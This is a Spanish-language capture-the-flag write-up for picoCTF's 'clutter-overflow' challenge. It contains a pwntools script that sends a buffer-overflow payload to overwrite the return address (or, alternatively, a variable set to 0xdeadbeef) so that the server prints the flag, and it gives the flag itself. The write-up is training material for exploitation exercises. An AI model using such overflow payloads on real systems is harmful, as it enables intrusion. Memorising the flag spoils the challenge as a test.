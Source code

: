 

## Descripcion
Clutter, clutter everywhere and not a byte to use.`nc mars.picoctf.net 31890`
## Pistas

## Solucion
```
Usamos el siguiente script para la solucion:
from pwn import *

#Sets remote host and port
p = remote("mars.picoctf.net", 31890)

#Only one of the payloads below will work at a time

#This overwrites the instruction pointer, jumps to `0x0040077e`, and thus executes `cat flag.txt`
########## Use This or The Other One ###############

payload = b"A"*280 
payload += p64(0x0040077e)

####################################################


#This overwrites the variable to make it equal to "0xdeadbeef", which prints us the flag
######### Use This or The Other One ################

#payload = b"A"*264 
#payload += p64(0xdeadbeef)

####################################################
p.sendline(payload)

p.interactive()
obteniento la bandera

```

## Bandera

picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}

## Notas adicionales

## Referencias
- [WriteUp](https://biplav.xyz/posts/coverflow/)